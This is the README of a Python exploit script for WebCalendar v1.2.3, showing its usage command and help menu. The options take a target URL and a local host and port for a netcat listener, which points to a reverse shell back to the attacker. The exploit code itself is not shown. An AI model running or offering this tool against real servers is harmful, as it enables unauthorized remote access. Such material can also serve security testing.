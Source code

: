# WebCalendarv1.2.3
Script written in python to exploit Web Calendar v1.2.3.

<hr>

#### 1. Usage:
```
$ python3 webcalendar.py -u <ip> -l <local_host> -p <local_port>
```

#### 2. Help Menu:
```
usage: webcalendar.py [-h] [-u URL] [-l LHOST] [-p LPORT]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Url of the webcalendar
  -l LHOST, --lhost LHOST
                        Local host for netcat listener
  -p LPORT, --lport LPORT
                        Local port for netcat listener
```

#### 3. Example:
![](example.gif)
